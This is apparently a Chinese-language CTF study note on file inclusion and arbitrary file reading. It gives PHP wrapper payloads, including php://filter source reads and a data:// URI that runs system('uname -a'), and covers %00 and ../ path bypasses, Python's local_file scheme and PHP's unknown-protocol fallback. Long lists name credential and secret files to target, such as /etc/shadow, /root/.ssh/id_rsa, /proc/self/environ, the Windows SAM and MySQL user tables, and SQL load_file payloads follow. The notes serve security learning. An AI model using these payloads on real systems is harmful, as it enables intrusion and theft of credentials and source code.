




# include FILE 机制

https://null-flag.yuque.com/wn5dym/glahue/vrvf0t

phpmyadmin 4.8.1任意文件包含

include FILE；的特殊机制

```
include hint.php?./ffffllllaaaagggg
```

# PHP伪协议

https://null-flag.yuque.com/wn5dym/glahue/ngourh

需要使用php伪协议来读源码

`php://filter 协议`  `php://input 协议` 等

```
file=php://filter/read=convert.base64-encode/resource=./flag.php
http://vulnerable/fileincl/example1.php?page=data://text/plain;base64,PD9waHBpbmZvKCk7Lyo=
http://vulnerable/fileincl/example1.php?page=data:;base64,PD9waHBpbmZvKCk7Lyo=   
http://vulnerable/fileincl/example1.php?page=data:text/plain,<?php system("uname -a");?>
```

# filter:base64 | 如果flag在flag.php 中但是不会输出

https://null-flag.yuque.com/wn5dym/glahue/qiry5m

可以使用 php伪协议 `php://filter 协议 ` 读取base64形式的

```
php://filter/convert.base64-encode/resource=flag.php
```

# 在进行目标读取的时候除了 `%00` 还可以尝试 `../`

`%00`截断(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)

在做一道题的时候，必须包含 `meowers`

这样不行：`GET /index.php?category=php://filter/convert.base64-encode/resource=./flag.php%00meowers HTTP/1.1`

这样可以：`GET /index.php?category=php://filter/convert.base64-encode/resource=meowers/../flag HTTP/1.1`

# php://filter 协议中间部分可以随意加东西

```
category=php://filter/convert.base64-encode/aaaindexbbb/resource=flag
```

# Python 支持的协议

`local-file:///etc/passwd`  Python 2.x - 2.7.16 urllib.fopen支持local_file导致LFI(CVE-2019-9948)：https://bugs.python.org/issue35907

可以使用`local_file`:绕过，例如 `local_file:flag.txt`路径就是相对脚本的路径  `local_file://`就必须使用绝对路径(协议一般都是这样)

```
gopher
file
```

# file 协议绕过 | null 协议   httpss://

容错特性：

我先甩出关于容错特性的一个概述：（php的容错特性）当有一个不存在的协议，即无法被成功解析，如hhhm://，将其放入file_get_contents中，会发现其报错，而究其所以是将这个自定义的协议置为null，而php中当协议为null或者file时会进行本地文件读取，也就是说我们可以当做进行本地文件的操作。

本地放一段代码：

```
<?php include($_GET['1']);
```



传参:

```
http://127.0.0.1/CTF/index.php?1=httpss://../index.py
```

会发现报了两行错：



如上图，尽管报错但是我们包含的页面依旧成功包含了进去，事实上这里就是找不到httpss这个协议，因此把这个协议置为null，然后进行本地文件操作（index.html与当前文件事实上是处于同一个目录的），然后将httpss:这一串当成一个文件夹or文件，因此我们需要进行回退一层然后再读取才能读到处于当前目录下的文件。

同理：

`<?php echo file_get_contents($_GET['1']);` 也可以

- show_source
- highlight_file
- 及其他几个文件读取的函数其实都有这个特性

# 文件读取能做什么事

Linux 系统中，一切都是文件。所以说，文件读取漏洞将能发挥很大作用。

如`../../proc/self/fd/5` 请求发现是 log 日志的文件描述符：




```javascript
- /proc/mounts 文件系统列表
- /proc/cpuinfo CPU信息
- /proc/meminfo 内存信息
- /proc/self -> 指向 /proc/[当前进程pid]
- /proc/[pid]/cmdline 进程启动参数（可以获取一些敏感信息，如redis密码等）（可以跨进程，如pid=1的进程/proc/1/cmdline）
- /proc/[pid]/mountinfo 文件系统挂载的信息（可以看到docker文件映射的一些信息，如果是运行在容器内的进程，通常能找到重要数据的路径：如配置文件、代码、数据文件等）
- /proc/[pid]/exe 指向该进程的可执行文件
/proc/self/environ 环境变量
- /proc/[pid]/fd/[fd] 进程打开的文件（fd是文件描述符id）
- /proc/self/cwd/server.py  // 获取源码 (current working directory)
具体参见：https://man7.org/linux/man-pages/man5/proc.5.html

还有一点要注意的，比如你是用bash来读取/proc/，那么当前进程是bash的进程。这个点通常会有一些人有误区，比如docker启动一个redis的容器，你执行 `docker-compose exec redis cat /proc/self/cmdline` 看到的是cat这个进程执行的参数（其内容是 `cat /proc/self/cmdline`），而不是redis进程执行参数。如果要读取redis进程执行的参数，应该读取pid=1的进程的cmdline：/proc/1/cmdline 。

还有一点忘了说，和docker有关的（但不仅限于docker，比如扩展到supervisord也行得通）。大家知道，文件描述符0是标准输入、1是标准输出、2是标准错误，docker打开的web进程很可能是会将浏览记录和错误记录都输出在1里），甚至包括一些敏感信息（比如启动进程的时候输出一下配置信息什么的）。这时候多读取一下/proc/self/fd/1会有一些不一样的发现。
Windows：
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息
C:\Windows\win.ini //Windows系统的一个基本系统配置文件
c:\windows\system32\inetsrv\MetaBase.xml 查看IIS的虚拟主机配置
c:\windows\repair\sam //存储了WINDOWS系统初次安装的密码
c:\Program Files\RhinoSoft.com\ServUDaemon.exe
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
c:\Program Files\Serv-U\ServUDaemon.ini
c:\Program Files\ Serv-U\ServUAdmin.exe //6.0版本以前的serv-u管理员密码存储于此
c:\Program Files\Apache Group\Apache\conf\httpd.conf 或C:\apache\conf\httpd.conf //查看WINDOWS系统apache文件
c:\mysql\data\mysql\user.MYD //存储了mysql.user表中的数据库连接密码
c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini //存储了虚拟主机网站路径和密码
c:/Resin-3.0.14/conf/resin.conf //查看jsp开发的网站 resin文件配置信息.
c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机
d:\APACHE\Apache2\conf\httpd.conf
C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码

Linux：
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql历史命令记录文件
/etc/passwd
/etc/shadow
/etc/my.cnf //mysql配置文件
/etc/httpd/conf/httpd.conf //apache配置文件
/etc/sysconfig/iptables //从中得到防火墙规则策略
/etc/httpd/conf/httpd.conf // apache配置文件
/etc/rsyncd.conf //同步程序配置文件
/etc/my.cnf //mysql的配置文件
/etc/redhat-release //系统版本
/etc/issue
/etc/issue.net
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf 查看linux APACHE虚拟主机配置文件
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件
/etc/sysconfig/iptables 查看防火墙策略
/proc/mounts //记录系统挂载设备
/proc/config.gz //内核配置文件
/proc/self/cmdline //当前进程的cmdline参数
/var/lib/mlocate/mlocate.db //全文件路径
LUNIX/UNIX 下:
/usr/local/app/apache2/conf/httpd.conf //apache2缺省配置文件
/usr/local/apache2/conf/httpd.conf
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
/usr/local/app/php5/lib/php.ini //PHP相关设置
/usr/local/app/php5/lib/php.ini //PHP相关设置
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
/usr/local/resin-pro-3.0.22/conf/resin.conf 同上
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
/usr/local/resin-pro-3.0.22/conf/resin.conf 同上
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录
replace(load_file(0×2F6574632F706173737764),0×3c,0×20)
replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))
```


# 读取 pyc 文件

如果程序设置不能读取 .py 文件，这里自然会想到 .pyc 文件，.pyc 是 python 的字节码文件，python3.5.2 的字节码文件在`__pycache__/*.cpython-35.pyc`中。然后看一下 Django 的文件结构：

其中，Django 的逻辑代码全部在 views.py 里，数据库模型在 models.py 里。那么，下载这两个文件的字节码文件即可：



在 burp 里选中那一大段二进制内容，右键 save to file 即可保存到文件。

使用 https://github.com/rocky/python-uncompyle6 可以反编译python3的字节码文件，得到如下结果：